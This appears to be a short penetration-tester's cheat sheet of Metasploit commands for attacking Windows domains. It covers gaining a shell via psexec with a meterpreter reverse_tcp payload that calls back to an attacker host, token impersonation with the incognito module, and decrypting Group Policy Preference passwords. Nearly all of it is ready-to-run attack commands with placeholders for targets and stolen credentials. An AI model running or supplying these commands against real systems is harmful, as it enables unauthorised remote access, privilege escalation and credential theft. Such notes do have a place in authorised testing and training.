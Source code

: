 --  -
#### Get Shell
```bash
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp # depends
set rhosts <target ip>
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set lhost <attack ip>
run
```

^66f29a

#### Icognito Module
Module used for #token-impersonation
```bash
load icognito
list_tokens -u
impersonate_token <user>
```

^c51a79

#### GPP Attack
```bash
# will look for the file and cPassword field and decrypt it for you.
msfconsole
use auxiliary/smb_enum_gpp
```

^030f63
